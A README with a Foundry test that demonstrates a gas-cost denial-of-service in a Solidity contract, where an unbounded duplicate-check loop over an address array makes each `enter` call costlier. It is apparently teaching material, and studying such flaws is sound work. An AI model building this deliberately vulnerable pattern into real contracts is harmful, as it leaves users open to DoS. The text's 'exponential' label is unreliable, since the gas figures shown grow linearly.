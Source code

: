 # DoS - increasing the gas costs exponentially 

## Installation 🛠️

1. Clone the repository:
```shell
git clone https://github.com/ionOM/smart-contract-attacks.git
```

2. Move to the loop folder:
```shell
cd smart-contract-attacks/denial-of-service/loop
```
3. When you are in the loop folder, type in the console:
```shell
forge test
```
## How this DoS work

We maintain an array named `entrance`, of type `address[]`, to store the addresses interacting with the contract. \
\
There exists a function called `enter` that permits an address to be added to the `entrance` array.\
\
Within this function, the contract verifies the `entrance` array for any duplicates of the address attempting to enter. If no duplicate is identified, the address is subsequently added to the `entrance` array.\
\
The more addresses are added into the array, more looping will be required for the duplication check, increasing the gas costs exponentially.

## Test
In our test, you can observe how drastically the gas costs have increased due to the DoS attack. The second person utilizing the `enter` function incurs lower gas fees than the third, and so forth. For instance, the second person pays `26146` in gas, the third person pays `26701`, the fourth person pays `27256`, and the 1005th person pays `582811` in gas. 

#### DOSLoopTest.t.sol
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

import {Test, console2} from "forge-std/Test.sol";
import {DOSLoop} from "src/DOSLoop.sol";

contract DOSLoopTest is Test {

    DOSLoop public loop;

    address warmUpAddress = makeAddr("warmUp");
    address person1 = makeAddr("1");
    address person2 = makeAddr("2");
    address person3 = makeAddr("3");
    address person1005 = makeAddr("1005");


    function setUp() public {
        loop = new DOSLoop();
    }

    function test_denial_of_service_loop() public {
        // We want to warm up the storage stuff
        vm.prank(warmUpAddress);
        loop.enter();

        uint256 gasStart1 = gasleft();
        vm.prank(person1);
        loop.enter();
        uint256 gasCost1 = gasStart1 - gasleft();

        uint256 gasStart2 = gasleft();
        vm.prank(person2);
        loop.enter();
        uint256 gasCost2 = gasStart2 - gasleft();

        uint256 gasStart3 = gasleft();
        vm.prank(person3);
        loop.enter();
        uint256 gasCost3 = gasStart3 - gasleft();

        for (uint256 i; i < 1000; i++) {
            vm.prank(address(uint160(i)));
            loop.enter();
        }

        uint256 gasStart1005 = gasleft();
        vm.prank(person1005);
        loop.enter();
        uint256 gasCost1005 = gasStart1005 - gasleft();

        console2.log("Gas cost 1: %s", gasCost1); // 26146 gas
        console2.log("Gas cost 2: %s", gasCost2); // 26701 gas
        console2.log("Gas cost 3: %s", gasCost3); // 27256 gas
        console2.log("Gas cost 1005: %s", gasCost1005); // 582811 gas

        // This gas cost will just keep rising, making it harder and harder for new people to enter
        assert(gasCost3 > gasCost2);
        assert(gasCost2 > gasCost1);
        assert(gasCost1005 > gasCost3);


    }
}
```
